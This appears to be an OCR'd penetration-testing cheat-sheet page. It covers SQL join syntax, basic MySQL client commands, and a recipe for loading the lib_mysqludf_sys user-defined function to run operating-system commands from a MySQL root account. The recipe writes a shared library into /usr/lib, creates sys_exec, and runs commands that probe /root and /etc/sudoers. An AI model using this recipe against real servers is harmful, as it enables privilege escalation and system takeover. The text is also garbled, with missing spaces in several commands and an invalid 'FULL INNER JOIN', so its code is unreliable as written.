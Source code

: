 ##### SQL Joins
```
    #FULL All
    SELECT something FROM tableA A FULL OUTER JOIN tableB B ON A.KEY = B.KEY

    #A partial B
    SELECT something FROM tableA A LEFT JOIN tableB B on A.Key = B.Key

    #B Partial A
    SELECT something FROM tableA A RIGHT JOIN tableB B on A.Key = B.Key

    #A no B
    SELECT something FROM tableA A LEFT JOIN tableB B on A.Key = B.Key WHERE B.Key IS NULL

    # Outer
    SELECT something FROM tableA A FULL OUTER JOIN tableB B on A.Key = B.Key WHERE A.Key IS NULL OR B.Key IS NULL

    # Inner
    SELECT something FROM tableA A FULL INNER JOIN tableB B on A.Key = B.Key

```

#### MySQL
```
    [mysqldir]/bin/mysql-h hostname-u root --password=pass <database>

    select @@version
    select @@servername

    mysql> show databases;
    mysql> use [db name];
    mysql> show tables;
    mysql> describe [table name];
    mysql> SELECT * FROM [table name];
```

##### UDF Install for Command Execution

User Defined Functions by Platform
``` 
    udf/mysql/linux/32/lib_mysqludf_sys.so
    udf/mysql/linux/64/lib_mysqludf_sys.so
    udf/mysql/windows/32/lib_mysqludf_sys.dll
    udf/mysql/windows/64/lib_mysqludf_sys.dll
```
Source: http://www.iodigitalsec.com/mysql-root-to-system-root-with-udf-for-windows-and-linux/


Load MYSQLUDF for Linux
``` 
    use test;
    create table udf(line blob);
    insert into udfvalues(load_file('/tmp/udf/udf.so'));
    select * from udfinto dumpfile'/usr/lib/udf.so';
    create function sys_exec returns integer soname'udf.so';
    select sys_exec('id > /tmp/out; chownapache.apache /tmp/out');
    select sys_exec('ls -alh/root/Desktop/ >> /tmp/out');
    select sys_exec('ls /etc/sudoers>> /tmp/out');
```
